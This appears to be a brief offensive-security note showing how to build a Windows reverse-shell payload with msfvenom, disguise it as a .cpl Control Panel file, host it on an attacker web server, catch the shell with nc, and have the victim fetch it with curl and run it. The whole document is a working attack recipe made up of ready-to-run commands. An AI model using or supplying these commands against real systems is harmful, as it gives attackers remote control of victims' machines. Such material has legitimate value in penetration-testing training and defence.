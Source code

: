 # Attacker server
- Generating a simple x64 reverse shell in a .dll format:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.213.136 LPORT=4444 -f dll -o shell.dll
```
- Rename to .cpl file
```bash
mv shell.dll shell.cpl
```
- Run listening server:
```python
python3 -m http.server 80
nc -nvlp 4444
```
# Victim machine
- Open cmd.exe and run the following command
```cmd
curl -O http://192.168.213.136/shell.cpl
.\shell.cpl
```
